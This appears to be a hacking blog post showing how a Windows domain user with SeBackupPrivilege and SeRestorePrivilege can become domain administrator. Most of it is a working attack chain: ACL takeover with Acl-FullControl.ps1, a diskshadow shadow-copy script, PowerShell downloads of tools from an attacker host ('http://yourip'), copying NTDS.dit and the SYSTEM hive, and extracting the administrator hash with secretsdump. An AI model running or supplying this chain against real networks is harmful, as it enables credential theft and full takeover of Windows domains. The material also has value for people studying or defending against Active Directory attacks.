 [back](/)

### Glad to see you domain admin

What can domain users with "SeBackupPrivilege" and "SeRestorePrivilege" privileges do?

![Image](/img/sebackup_and_serestore/1.png)

![Image](/img/sebackup_and_serestore/2.png)

Such user can easily get the domain administrator access. Firstly, using these privileges, you can assign an ACL with the "FullControl" flag to any directory and any file in the system (does not apply to encrypted files by EFS), this means "full rights" to read and write.

```
Import-Module ./Acl-FullControl.ps1
Acl-FullControl -user FQDN\domainuser -path c:\users\administrator - get access to any path
```

However, the juiciest files SAM, SYSTEM, SECURITY and NTDS.DIT will remain inaccessible (despite what works "reg save HKLM...), even with full rights due to constant use. But using the diskshadow utility (functionality provided by the Volume Shadow Copy Service) will help you create a shadow copy of the local disk with ntds.dit, and further mimicking the backup program using WIN32 API calls will help move ndts.dit to your local drive. 

```
shad.txt: - do not forget to add spaces =)
_________

set context clientaccessible   
set context persistent   
begin backup   
add volume c: alias mydrive  
create  
expose %mydrive% z:  
_________

powershell.exe Invoke-WebRequest "http://yourip/shad.txt -OutFile ./shad.txt"
diskshadow.exe /s C:\temp\ntdscopy\shad.txt
```

![Image](/img/sebackup_and_serestore/5.png)

then

```
powershell.exe Invoke-WebRequest "http://yourip/SeBackupPrivilegeCmdLets.dll -OutFile ./SeBackupPrivilegeCmdLets.dll"
powershell.exe Invoke-WebRequest "http://yourip/SeBackupPrivilegeUtils.dll -OutFile ./SeBackupPrivilegeUtils.dll"

Import-Module .\SeBackupPrivilegeCmdLets.dll
Import-Module .\SeBackupPrivilegeUtils.dll
Set-SeBackupPrivilege

Copy-FileSeBackupPrivilege z:\windows\NTDS\ntds.dit c:\tmp\ntds.dit - now u got ntds.git copy =)

reg save HKLM\system system.save
```

Then "secretsdump" will help you get the hash of the domain administrator from ntds.dit without much difficulty =)Then "secretsdump" will help you get the hash of the domain administrator from ntds.dit without much difficulty =)

```
python secretsdump.py -ntds /tmp/ntds.dit -system /tmp/system.save LOCAL
```

Glad to see you domain admin =)

Everything you need is here:

[Abusing-backup-operators-group](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet#abusing-backup-operators-group)

[Acl-FullControl.ps1](https://github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Acl-FullControl.ps1)

[SeBackupPrivilegeCmdLets](https://github.com/giuliano108/SeBackupPrivilege/tree/master/SeBackupPrivilegeCmdLets/bin/Debug)

<div id="disqus_thread"></div>
<script>
(function() { // DON'T EDIT BELOW THIS LINE
var d = document, s = d.createElement('script');
s.src = 'https://hackitfaster-hopto-org.disqus.com/embed.js';
s.setAttribute('data-timestamp', +new Date());
(d.head || d.body).appendChild(s);
})();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript>

[back](/)